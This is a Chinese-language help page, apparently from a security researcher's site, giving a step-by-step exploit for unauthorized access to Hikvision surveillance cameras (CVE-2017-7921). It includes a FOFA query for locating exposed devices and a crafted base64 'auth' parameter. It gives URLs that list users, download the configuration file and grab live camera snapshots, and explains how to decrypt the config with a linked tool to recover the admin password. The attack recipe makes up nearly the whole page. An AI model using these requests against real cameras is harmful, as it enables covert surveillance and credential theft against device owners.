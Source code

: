 ```yaml
---
layout: help
category: help
mirrorid: Hikvision-ConfigurationFiles-decrypter
permalink: /help/Hikvision-ConfigurationFiles-decrypter/
---
```


> *fofa： app="HIKVISION-视频监控"*
>
> *HIKVISION*监控设备管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

构造url主要是通过如下的`auth`参数构造生成base64加密字段，如下所示：

```bash
➜  echo admin:11 |base64
YWRtaW46MTEK
```

<h2><li>检索所有用户及其角色的列表</li></h2>
`http://{ip.addr}:{ip.port}/Security/users?auth=YWRtaW46MTEK`

返回xml信息：

```xml
<UserList version="1.0">
<User version="1.0">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>
```

---

<h2><li>下载账号密码配置文件</li> </h2>


`http://{ip.addr}:{ip.port}/System/configurationFile?auth=YWRtaW46MTEK`

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

如上，我们配置文件下载完成后可以看到是PGP加密文件，所以我们需要对文件进行解密才可以找到账号密码的配置信息；文件解密出的账号密码就是监控设备后台管理的账号密码信息，我们得到信息直接登录即可。解密软件用法及链接如下：

### *# Usage:*

<div class="col-lg-7">
<img align="left" src="/static/web-image/Hikvision/Hikvision-pass.png"/>
</div>

<div>

<h3> <em>Open [hikvision-decrypter.exe] on Windows platform:</em> </h3>

<li><code>Open Configuration File -> </code></li>

<li><code>Encrypted -> </code></li>

<li><code>Decrypt Data(Decrypting AES...) -> </code></li>

<li><code>(Successfully decrypted data) -> </code></li>

<li><code>Save Configuration File. </code></li>


</div>

### *# Find pass in decrypted data*

用 010-Editor程序打开decrypted data 文件. 文件内搜索admin字符串，如左图；

**Boom! Easy to find password! (admin:asdf1234)**

<span style="margin-left: 1em">* 我们通过[Usage]来获得的帐号密码登录即可，有机会会从代码角度分析一下为什么存在未授权访问</span>

### *#* 相关链接一览表

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe){:target="_blank"} and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa){:target="_blank"}
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa){:target="_blank"}

---

<h3><li>获取监控快照</li></h3>

`http://{ip.addr}:{ip.port}/onvif-http/snapshot?auth=YWRtaW46MTEK`

当前时间下监控的快照图片

![](/static/web-image/Hikvision/Hikvision-unauth-view.png)


## 参考

- [CVE-2017-7921海康威视摄像头管理后台未授权](https://www.freebuf.com/vuls/268245.html){:target="_blank"}
- [Hikvision Decrypter](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}


以上。
